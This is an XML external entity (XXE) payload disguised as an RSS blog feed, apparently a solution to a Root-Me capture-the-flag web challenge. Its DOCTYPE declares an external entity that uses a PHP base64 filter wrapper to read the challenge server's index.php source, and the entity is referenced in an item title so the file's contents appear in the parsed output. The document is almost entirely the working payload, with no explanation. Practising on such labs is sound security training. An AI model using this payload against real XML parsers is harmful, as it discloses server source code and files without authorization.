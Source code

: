 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss [
    <!ELEMENT title ANY>
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://challenge01.root-me.org/web-serveur/ch29/index.php" >
]>
<rss version="1.0" xmlns:atom="http://www.w3.org/2005/Atom">
    <channel>
        <title>The Blog</title>
        <link>http://example.com/</link>
        <description>A blog a about things</description>
        <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
        <item>
            <title>&xxe;</title>
            <link>http://example.com</link>
            <description>a post</description>
            <author>author@example.com</author>
            <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
        </item>
    </channel>
</rss>
